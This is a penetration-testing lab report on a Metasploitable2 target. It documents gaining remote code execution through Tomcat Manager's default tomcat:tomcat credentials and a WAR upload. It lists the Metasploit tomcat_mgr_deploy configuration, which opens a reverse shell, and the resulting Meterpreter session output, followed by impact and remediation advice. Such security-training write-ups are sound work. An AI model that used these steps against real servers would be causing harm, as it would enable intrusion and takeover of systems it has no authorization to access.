






# Finding 6: Apache Tomcat Manager — Default Credentials & WAR Upload RCE

| | |
|---|---|
| **Service** | HTTP / Tomcat Manager (Port 8180) |
| **Version** | Apache Tomcat (Manager Application) |
| **CVE** | N/A (Misconfiguration — default credentials leading to authenticated RCE) |
| **CWE** | CWE-521 (Weak Password Requirements) / CWE-434 (Unrestricted Upload of File with Dangerous Type) |
| **Severity** | Critical |
| **CVSS (approx.)** | 9.1 (Critical) — authenticated remote code execution via default credentials |

---

## 1. Methodology

**Step 1 — Confirm connectivity to the target**

```
ping -c 4 192.168.56.102
```

Verified the target (`192.168.56.102`) was reachable from the attacker machine with 0% packet loss.



**Step 2 — Full service/version enumeration**

```
nmap -sV -sC 192.168.56.102
```

Full scan confirmed multiple open services on the target, alongside the Tomcat HTTP service on port 8180.



**Step 3 — Manually verify Manager access with default credentials**

Navigated to `http://192.168.56.102:8180/manager/html` in a browser and authenticated using the well-known Metasploitable2 default credential pair **tomcat:tomcat**. Access was granted, exposing the full **Tomcat Web Application Manager**, including a "Deploy" panel for uploading WAR files directly to the server — the exact mechanism used for RCE in the next step.



**Step 4 — Identify a suitable Metasploit module**

```
msfconsole
search tomcat_mgr
```

Located the matching Metasploit module for authenticated deployment-based code execution:
```
exploit/multi/http/tomcat_mgr_deploy    2009-11-09    excellent    Apache Tomcat Manager Application Deployer Authenticated Code Execution
```



---

## 2. Exploitation

**Step 1 — Configure the module**

```
use exploit/multi/http/tomcat_mgr_deploy
set RHOSTS 192.168.56.102
set RPORT 8180
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST 192.168.56.101
```

**Step 2 — Run the exploit**

```
exploit
```

The module authenticated to the Manager application using the default credentials, then packaged a malicious payload as a WAR file and deployed it via the same "Deploy" mechanism observed manually in Step 3. Tomcat automatically extracted and executed the embedded JSP payload, then the module cleaned up by undeploying the malicious application.

```
[*] Started reverse TCP handler on 192.168.56.101:4444
[*] Automatically selected target "Linux x86"
[*] Uploading 6212 bytes as AVCMZcz.war ...
[*] Executing /AVCMZcz/lkHioF66u8.jsp ...
[*] Undeploying AVCMZcz ...
[*] Sending stage (58073 bytes) to 192.168.56.102
[*] Meterpreter session 1 opened (192.168.56.101:4444 → 192.168.56.102:32928)
```



**Step 3 — Verify access level**

```
meterpreter > getuid
Server username: tomcat55

meterpreter > sysinfo
Computer        : metasploitable
OS              : Linux 2.6.24-16-server (i386)
Architecture    : x86
Meterpreter     : java/linux
```

Access was confirmed at the **`tomcat55`** service account level (the user Tomcat runs as) — not root. This is a lower privilege level than the other findings in this lab, but still represents full remote code execution and a strong foothold for further privilege escalation.



---

## 3. Impact

- **Remote code execution** as the `tomcat55` service account via authenticated WAR file deployment
- Attacker can read/modify files accessible to the Tomcat process, access any web applications hosted on the server, and pivot toward privilege escalation (e.g., searching for locally exploitable kernel vulnerabilities or misconfigured sudo rules) to reach root
- Root cause is entirely credential-based — Tomcat's own code was not exploited, only its intended (and powerful) application deployment feature, secured by a weak, well-known default password
- This finding demonstrates a different vulnerability class than root-shell backdoors (vsftpd, UnrealIRCd) or blank passwords (MySQL) — highlighting how a legitimate admin feature becomes a critical vulnerability when gated by default credentials

---

## 4. Remediation

- Immediately change the Tomcat Manager credentials from the default `tomcat:tomcat`; enforce strong, unique passwords for all administrative interfaces
- Restrict access to `/manager` and `/host-manager` to trusted internal IP ranges only, using `RemoteAddrValve` or equivalent network-level controls
- Remove or disable the Manager application entirely in production environments where remote WAR deployment is not required
- Run the Tomcat service under a dedicated low-privilege account with minimal filesystem access, limiting the blast radius of any future compromise
- Regularly audit default credentials across all deployed services — this is the fourth default/weak-credential finding in this lab, reinforcing it as the most common real-world root cause of "critical" vulnerabilities
